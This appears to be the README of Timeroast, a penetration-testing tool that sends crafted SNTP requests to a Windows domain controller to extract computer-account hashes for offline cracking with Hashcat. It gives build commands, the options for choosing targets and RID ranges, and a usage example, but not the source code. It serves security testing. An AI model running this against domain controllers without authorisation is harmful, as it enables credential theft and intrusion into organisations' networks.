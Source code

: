 # Timeroast — MS-SNTP (TimeRoast) Hash Extraction Tool

This script sends crafted SNTP requests to a Windows Domain Controller (DC) over UDP/123 and parses the MAC-style authenticator that the DC returns, yielding **Hashcat mode 31300** lines:

> ⚠️ **Ethical use only**  
> Run this code **exclusively** against systems you own or are authorized to test.


## Build

| Platform      | Command                                                                        |
|---------------|--------------------------------------------------------------------------------|
| Linux/macOS   | `gcc -Wall -O2 -o timeroast timeroast.c`                                       |
| Windows (x64) | `x86_64-w64-mingw32-gcc -O2 timeroast.c -o timeroast.exe -lws2_32`             |

## Usage

| Option | Argument      | Description                                                                  |
|--------|---------------|------------------------------------------------------------------------------|
| `-d`   | `<IP|FQDN>`   | **Domain Controller** to target (IPv4 or hostname) **(required)**            |
| `-r`   | `<list>`      | **RID(s)** – e.g. `500,1000-1200,2500` **(required)**                        |
| `-a`   | `<rate>`      | Requests per second (default **180**)                                        |
| `-t`   | `<sec>`       | Silence timeout — exit after _n_ seconds without new hashes (default **24**) |
| `-l`   | —             | Use **legacy** RID encoding (flip bit 31)                                    |
| `-p`   | `<port>`      | Source UDP port to bind (useful behind firewalls/NAT)                        |
| `-o`   | `<file>`      | Write hashes to file instead of `stdout`                                     |


## Usage example:
gcc -Wall -O2 -o timeroast timeroast.c
sudo ./timeroast -d <ip_addr> -r <numbers_range> -o hashes.txt

Acknowledgements
Thanks to @tifkin for the original PoC and research.
